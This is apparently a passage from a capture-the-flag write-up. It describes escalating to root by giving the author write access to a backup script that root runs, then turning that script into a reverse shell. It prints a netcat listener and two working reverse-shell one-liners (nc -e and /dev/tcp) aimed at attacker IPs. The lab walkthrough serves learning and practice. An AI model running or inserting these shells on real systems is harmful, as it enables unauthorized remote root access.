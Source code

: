 ```bash
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"

cmd=$($command)
echo $cmd

```
- my initial thoughts are that this is simply for the creation of the tar archive that we already decrypted 

However the part that matters to us is not the content but the fact that this script can be run as the root user and we have access to it. This will hopefully allow us to create a reverse shell.

Unfortunately we are not allowed to write to the script but since we should be the owners of the script lets try giving ourselves the permissions with `chmod +w etc/mp3backups/backup.sh`,

![](https://raw.githubusercontent.com/tedthecaver/tedthecaver.github.io/main/_posts/IMG-20241222233750594.png)
- we gave ourselves the access let's try setting up the reverse shell now 

Ok script changing editing works! Let's setup a shell now,

```bash
#!/bin/bash

nc 10.0.0.81 5555 -e /bin/bash
```
- we set up the listener on our attacker machine with `nc -lvnp 5555` and the shell on the target machine with the script

Running the script with `./backup.sh` we meet this error, 

```
nc: invalid option -- 'e'
This is nc from the netcat-openbsd package. An alternative nc is available
in the netcat-traditional package.
usage: nc [-46bCDdhjklnrStUuvZz] [-I length] [-i interval] [-O length]
         [-P proxy_username] [-p source_port] [-q seconds] [-s source]
         [-T toskeyword] [-V rtable] [-w timeout] [-X proxy_protocol]
         [-x proxy_address[:port]] [destination] [port]
```
- apparently ubuntu which is the host machine operating system has 2 packages, netcat and ncat which make using the `-e` flag complicated

Let's pick up a basic bash shell from _revshells.com_ then,

```bash
#!/bin/bash

sh -i >& /dev/tcp/10.9.0.81/5555 0>&1
```
- the updated script 

We have a connection! 
